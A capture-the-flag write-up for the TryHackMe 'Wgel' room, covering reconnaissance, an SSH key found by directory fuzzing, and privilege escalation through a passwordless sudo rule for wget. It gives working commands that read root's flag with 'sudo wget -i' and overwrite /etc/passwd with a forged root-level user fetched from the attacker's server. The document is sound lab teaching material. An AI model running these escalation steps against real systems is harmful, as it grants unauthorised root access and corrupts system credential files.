





# Wgel CTF

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

**Difficulty:** Easy

**Category:** Boot-to-root

**Description:** Can you exfiltrate the root flag?

- Name: Wgel CTF
- Additional Info: Have fun with this easy box.

<details>
  <summary> <h2> TLDR (SPOILERS) </h2> </summary>

Initial enumeration of a web service exposed a username `jessie` and hidden directory through fuzzing, revealing an SSH private key used to access the system as a low-privilege user. Post-exploitation enumeration identified sudo permission of `wget` as root without a password. This was abused to overwrite `/etc/passwd` with a crafted entry, enabling creation of a privileged user. The added user was used to switch to root, resulting in full system compromise and retrieval of the root flag.

</details>

---

## Initial Reconnaissance

Nmap scan:

```bash
nmap -A -v <IP> -oN nmapresult.txt
```



The website at port 80 is the default Apache website. However, there is a sneaky message in the comments of the website. 



I got a username `jessie`. 

The natural next step is to fuzz for common directories the site may have using tools such as `dirsearch, ffuf, gobuster`. Command for dirsearch: `dirsearch -u <URL> -w <PATH/TO/WORDLIST>`

Fuzzing directories gives an interesting endpoint. 

```
dirsearch -u http://10.48.179.239 -w /usr/share/dirb/wordlists/common.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4613

Target: http://10.48.179.239/

[16:33:18] Starting:
[16:33:34] 403 -  278B  - /server-status
[16:33:35] 301 -  316B  - /sitemap  ->  http://10.48.179.239/sitemap/

Task Completed
```

There is a default `unapp` template made via `colorlib` at the endpoint `/sitemap/`.  


Colorlib is a platform to speed up web development for web designers by providing HTML, wordpress and bootstrap templates. I doubt that there would be any exploits associated with them, but it does not hurt to check. 

I fuzzed for directories again at the sitemap endpoint. 

```
dirsearch -u http://10.48.179.239/sitemap/ -w /usr/share/dirb/wordlists/common.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4613

Target: http://10.48.179.239/

[16:45:13] Starting: sitemap/
[16:45:14] 301 -  321B  - /sitemap/.ssh  ->  http://10.48.179.239/sitemap/.ssh/
[16:45:17] 301 -  320B  - /sitemap/css  ->  http://10.48.179.239/sitemap/css/
[16:45:19] 301 -  322B  - /sitemap/fonts  ->  http://10.48.179.239/sitemap/fonts/
[16:45:20] 301 -  323B  - /sitemap/images  ->  http://10.48.179.239/sitemap/images/
[16:45:21] 301 -  319B  - /sitemap/js  ->  http://10.48.179.239/sitemap/js/

Task Completed
```

Is that what I think it is?


Yes it is. Quite unrealistic, but now I have a username, and the rsa key. With these, it is possible to get a foothold on the system via ssh. 



And I’m in. 

## Shell as jessie

I looked around a bit and found the userflag in Jessie’s Documents folder. 

```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
jessie@CorpOne:~$ ls -al Desktop/
total 8
drwxr-xr-x  2 jessie jessie 4096 oct 26  2019 .
drwxr-xr-x 17 jessie jessie 4096 oct 26  2019 ..
jessie@CorpOne:~$ ls -al Documents/
total 12
drwxr-xr-x  2 jessie jessie 4096 oct 26  2019 .
drwxr-xr-x 17 jessie jessie 4096 oct 26  2019 ..
-rw-rw-r--  1 jessie jessie   33 oct 26  2019 user_flag.txt
jessie@CorpOne:~$ cat Documents/user_flag.txt
REDACTED
```

The very first thing I always check is what commands the user can run as other people, including root. This time, Jessie is able to run `sudo` as all users with a password. But, Jessie can run `/usr/bin/wget` as root with no password. I see where the room got its name from. 

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Once a possible vector is identified, I went straight to `GFTObins.org`. 

### Escalate to root

Its possible to do a lot with `wget`, but spawning a shell in this case makes the most sense. When I spawn the shell using `sudo`, it will be root’s shell. 


I tried doing this approach but got an error instead. 

```bash
jessie@CorpOne:~$ echo -e '#!/bin/sh\n/bin/sh 1>&0' > /tmp/shell.sh
jessie@CorpOne:~$ chmod +x /tmp/shell.sh
jessie@CorpOne:~$ sudo wget --use-askpass=/tmp/shell.sh 0
wget: unrecognized option '--use-askpass=/tmp/shell.sh'
Usage: wget [OPTION]... [URL]...

Try `wget --help' for more options.
jessie@CorpOne:~$ sudo wget /tmp/shell.sh 0
/tmp/shell.sh: Scheme missing.
--2026-05-13 14:21:08--  http://0/
Resolving 0 (0)... 0.0.0.0
Connecting to 0 (0)|0.0.0.0|:80... connected.
HTTP request sent, awaiting response... 400 Bad Request
2026-05-13 14:21:08 ERROR 400: Bad Request.
```

After digging around a bit, I found out that `askpass` is a feature introduced in version `1.19.1`. The version of wget in this room was `1.17.1`. 

Then I had the thought of downloading a shell from my machine using sudo, which would make the owner root, but I discarded the idea immediately since I would not be able to change permissions to execute it. 

That destroys 2 of the 5 actions I can perform using `wget` as per `GTFObins` to spawn a shell (download and shell).

 But `wget` still allows me to read the file.



So I can read `/root/root_flag.txt` using sudo. (I assume thats the name since user flag was user_flag.txt)

```bash
jessie@CorpOne:~$ sudo wget -i /root/root_flag.txt
--2026-05-13 14:36:01--  http://REDACTED/
Resolving REDACTED (REDACTED)... failed: Name or service not known.
wget: unable to resolve host address ‘REDACTED’
```

Well, thats the flag.  I am not satisfied by getting the flag in such a “guessing” way. I want a full system compromise by getting access to root’s account. 

So I looked into the remaining 2 actions (`upload` and `file write`). 



Well, first I tried using this to overwrite the `/etc/passwd` and make root’s password null. 

```bash
jessie@CorpOne:~$ cat /tmp/passwd_copy
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
.

```

I did not read the comment properly, and all entries in `/etc/passwd` were overwritten with errors because `wget` was treating each line as a URL. 

```
--2026-05-13 14:46:24--  ftp://root/:0:0:root:/root:/bin/bash
           => ‘bash’
Resolving root (root)... failed: Name or service not known.
wget: unable to resolve host address ‘root’
--2026-05-13 14:46:24--  ftp://daemon/x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
           => ‘nologin’
Resolving daemon (daemon)... failed: Name or service not known.
wget: unable to resolve host address ‘daemon’
--2026-05-13 14:46:24--  ftp://bin/x:2:2:bin:/bin:/usr/sbin/nologin
           => ‘nologin’
Resolving bin (bin)... failed: Name or service not known.
wget: unable to resolve host address ‘bin’
```

Oops I guess?

I restarted the machine after since I could not connect via ssh anymore. 

```
└─$ ssh -i rsakey.txt jessie@10.48.179.239
kex_exchange_identification: read: Connection reset by peer
Connection reset by 10.48.179.239 port 22
```

I did not give up though. I looked up if having an empty password like above will work, and I found it will not be accepted. 

I still had another plan up my sleeve. I could make a copy of `/etc/passwd`, add my own user and password to the copy, download it to the target machine and overwrite `/etc/passwd` 

I chose a simple password with a simple salt and generated the hash using openssl.

```
└─$ openssl passwd -6 -salt mikayn mikayn
$6$mikayn$PA4whHGiqS9AYFnCPx4qGv/nhtsHsQPFwZ/K9AhO77Udkcvx3PQGkN/p/FCDpozbNA/JRvnwojwtQm7w5uALj.
```

Then I copied root’s entry and replaced the name and password to add my own “root” user to `/etc/passwd` . 

```
└─$ tail -n 1 passwd_copy
mikayn:$6$mikayn$PA4whHGiqS9AYFnCPx4qGv/nhtsHsQPFwZ/K9AhO77Udkcvx3PQGkN/p/FCDpozbNA/JRvnwojwtQm7w5uALj.:0:0:root:/root:/bin/bash
```

I started a server on my machine and downloaded the forged file and saved it to the original `/etc/passwd` using `sudo`.  

```bash
jessie@CorpOne:~$ sudo wget http://192.168.253.246:8080/passwd_copy -O /etc/passwd
--2026-05-13 15:23:42--  http://192.168.253.246:8080/passwd_copy
Connecting to 192.168.253.246:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2422 (2,4K) [application/octet-stream]
Saving to: ‘/etc/passwd’

/etc/passwd             100%[===============================>]   2,37K  --.-KB/s    in 0s

2026-05-13 15:23:42 (287 MB/s) - ‘/etc/passwd’ saved [2422/2422]

jessie@CorpOne:~$ tail -n 1 /etc/passwd
mikayn:$6$mikayn$PA4whHGiqS9AYFnCPx4qGv/nhtsHsQPFwZ/K9AhO77Udkcvx3PQGkN/p/FCDpozbNA/JRvnwojwtQm7w5uALj.:0:0:root:/root:/bin/bash
```

Finally I got root access. 

```bash
jessie@CorpOne:~$ su mikayn
Password:
root@CorpOne:/home/jessie# id
uid=0(root) gid=0(root) groups=0(root)
root@CorpOne:/home/jessie# cd
root@CorpOne:~# cat root_flag.txt
REDACTED
```

This felt much more satisfying than before, despite the hicup in the middle. 

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Website at port 80 |
| 2 | Check source code | Discovered username  `jessie` |
| 3 | Directory fuzzing via `dirsearch` | Found `/sitemap/` endpoint |
| 4 | Directory fuzzing at `/sitemap/`  | Discover SSH rsa key.  |
| 5 | Login to SSH | Shell as `jessie` + User flag |
| 7 | `sudo -l` | `wget` run as root |
| 8 | Add new user to `/etc/passwd` and download it via `sudo` | `/etc/passwd` replaced and new user added as root. |
| 9 | `su mikayn`  | Root + root flag.  |
